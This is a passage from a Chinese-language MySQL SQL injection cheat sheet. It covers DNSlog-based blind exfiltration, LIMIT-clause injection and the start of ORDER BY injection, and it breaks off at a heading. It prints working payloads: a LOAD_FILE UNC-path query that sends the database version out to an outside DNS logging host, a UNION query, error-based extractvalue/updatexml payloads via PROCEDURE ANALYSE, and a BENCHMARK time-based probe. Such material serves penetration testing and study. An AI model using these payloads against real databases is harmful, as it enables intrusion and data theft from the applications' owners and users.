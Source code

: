 
#### DNSlog注入

盲注由于爆数据太慢，这里用DNSlog方式可以快速获取数据

用户文件权限为空  @@secure_file_priv

申请一个DNS接收平台比如：ko8jyt.ceye.io

```
 SELECT LOAD_FILE(CONCAT('\\\\',(select version()),'.ko8jyt.ceye.io\\abc')); #成功可在平台上看到记录
```

## 其它注入点

### limit 注入

#### 不存在 order by 关键字

> select id from users limit [注入点]

这种可以用union进行联合查询注入

```
select id from users limit 0,1 union select username from users;
```



#### 存在 order by 关键字

> SELECT field FROM user WHERE id >0 ORDER BY id LIMIT [注入点]

payload(5.0.0< MySQL <5.6.6):

```
procedure analyse(extractvalue(rand(),concat(0x3a,version())),1); #extrctvalue报错注入
procedure analyse(updatexml(1,concat(0x3a,(select version())),1),1);#updatexml报错注入

PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1);  #如果不支持报错就用time-based 的注入，这里不能用sleep而只能用 BENCHMARK
```

### order by 注入

order by是mysql中对查询数据进行排序的方法， 使用示例

```
select * from 表名 order by 列名(或者数字) asc；升序(默认升序)
select * from 表名 order by 列名(或者数字) desc；降序
```

这里的重点在于order by后既可以填列名或者是一个数字。举个例子： id是user表的第一列的列名，那么如果想根据id来排序，有两种写法:

```
select * from user order by id;
selecr * from user order by 1;
```

#### order by 与 报错注入
